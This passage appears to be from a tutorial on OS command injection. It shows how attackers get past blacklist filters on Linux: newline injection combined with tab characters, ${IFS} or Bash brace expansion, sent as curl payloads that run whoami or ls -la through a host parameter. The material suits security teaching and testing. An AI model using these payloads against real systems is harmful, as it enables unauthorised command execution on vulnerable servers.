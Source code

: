 Upon sending this modified request, the server might return a response with the output of the `ls -la` command if the application is vulnerable:

```bash
HTTP/1.1 200 OK
Content-Type: text/plain

babel_intro.txt
babel_advanced.txt
babel_malicious_script.sh
```

## Bypassing Blacklisted Characters & Commands

Command injection attempts often face security filters that block specific characters or sequences. However, attackers can use several techniques to bypass these restrictions and execute arbitrary commands. Below, we explore different techniques and examples of bypassing command blacklists, both on Linux and Windows systems.

### Linux Command Injection Techniques

#### Using Tabs Instead of Spaces

Both Linux and Windows systems accept commands with tabs (`%09`) instead of spaces. This can be useful when spaces are blacklisted by filters.

```bash
curl -X GET "http://example.com/api?host=192.168.1.1%0a%09whoami"
# Output in Bash:
# babel-linux
```

#### Utilizing the `$IFS` Environment Variable

In Linux, the `$IFS` (Internal Field Separator) variable can be used as a space replacement, allowing commands to bypass space-based blacklists.

```bash
curl -X GET "http://example.com/api?host=192.168.1.1%0a${IFS}whoami"
# Output in Bash:
# babel-linux
```

#### Using Bash Brace Expansion

Bash Brace Expansion allows creating commands without spaces, which can bypass filters. This example uses it to list directory contents.

```bash
{ls,-la}
# Output in Bash:
# total 4
# drwxr-xr-x 2 babel babel 4096 Oct  6 10:12 babel_intro.txt
```

#### Exploiting Environment Variables to Inject Characters
